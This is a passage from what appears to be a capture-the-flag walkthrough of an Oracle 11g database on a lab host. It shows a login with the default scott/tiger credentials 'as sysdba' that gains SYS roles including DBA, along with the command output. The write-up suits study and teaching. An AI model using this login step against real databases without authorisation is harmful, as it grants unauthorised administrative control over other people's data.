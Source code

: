 This will show the users permission and it seems we doesn't have much permission.

```bash
SQL> select * from user_role_privs;

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT			       CONNECT			      NO  YES NO
SCOTT			       RESOURCE 		      NO  YES NO
```

But we can use `sysdba` which makes as login as system database administrator. Now we got some more Options.

```bash
root@kali:/opt/oracle/instantclient_19_6# ./sqlplus scott/tiger@10.10.10.82/XE as sysdba

SQL*Plus: Release 19.0.0.0.0 - Production on Tue Jun 16 12:08:39 2020
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS			       APEX_ADMINISTRATOR_ROLE	      YES YES NO
SYS			       AQ_ADMINISTRATOR_ROLE	      YES YES NO
SYS			       AQ_USER_ROLE		      YES YES NO
SYS			       AUTHENTICATEDUSER	      YES YES NO
SYS			       CONNECT			      YES YES NO
SYS			       CTXAPP			      YES YES NO
SYS			       DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS			       DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS			       DBA			      YES YES NO
SYS			       DBFS_ROLE		      YES YES NO

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       DELETE_CATALOG_ROLE	      YES YES NO
SYS			       EXECUTE_CATALOG_ROLE	      YES YES NO
SYS			       EXP_FULL_DATABASE	      YES YES NO
SYS			       GATHER_SYSTEM_STATISTICS       YES YES NO
SYS			       HS_ADMIN_EXECUTE_ROLE	      YES YES NO
SYS			       HS_ADMIN_ROLE		      YES YES NO
SYS			       HS_ADMIN_SELECT_ROLE	      YES YES NO
SYS			       IMP_FULL_DATABASE	      YES YES NO
SYS			       LOGSTDBY_ADMINISTRATOR	      YES YES NO
SYS			       OEM_ADVISOR		      YES YES NO
SYS			       OEM_MONITOR		      YES YES NO

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       PLUSTRACE		      YES YES NO
SYS			       RECOVERY_CATALOG_OWNER	      YES YES NO
SYS			       RESOURCE 		      YES YES NO
SYS			       SCHEDULER_ADMIN		      YES YES NO
SYS			       SELECT_CATALOG_ROLE	      YES YES NO
SYS			       XDBADMIN 		      YES YES NO
SYS			       XDB_SET_INVOKER		      YES YES NO
SYS			       XDB_WEBSERVICES		      YES YES NO
```